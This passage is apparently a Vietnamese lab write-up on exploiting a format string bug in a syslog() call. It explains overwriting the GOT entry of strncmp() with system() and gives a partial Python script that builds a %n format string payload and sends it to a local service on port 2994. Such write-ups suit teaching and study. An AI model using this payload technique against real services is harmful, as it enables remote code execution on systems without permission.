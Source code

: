 ![alt text](image-5.png)

Tham số thứ 2 của hàm `syslog()` hoạt động giống như chuỗi định dạng của hàm `printf()` => có thể khai thác hàm này. Sau khi thử thì kết quả đúng như dự đoán (kiểm tra log bằng quyền root với lệnh `cat /var/log/syslog`):

![alt text](image-6.png)
![alt text](image-7.png)

Mình sẽ ghi đè địa chỉ trong bảng GOT, cụ thể là ghi đè địa chỉ của `strncmp()` bằng địa chỉ hàm `system()`.

![alt text](image-8.png)

Script:

```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2994))

def read_until(str):
        buf = ""
        while str not in buf:
                buf += s.recv(1)
        return buf

strncmp_got1 = struct.pack("I", 0x0804a1a8)
strncmp_got2 = struct.pack("I", 0x0804a1a8 + 2)
ip, port = s.getsockname()
host = ip + ":" + str(port)
pad_to_align = "a" * (24 - len(host))

username_buf = pad_to_align + "bbbb" + strncmp_got1 + strncmp_got2 + "%65404x" + "%18$n" + "%47164x" + "%19$n"
login_buf = "1111"
```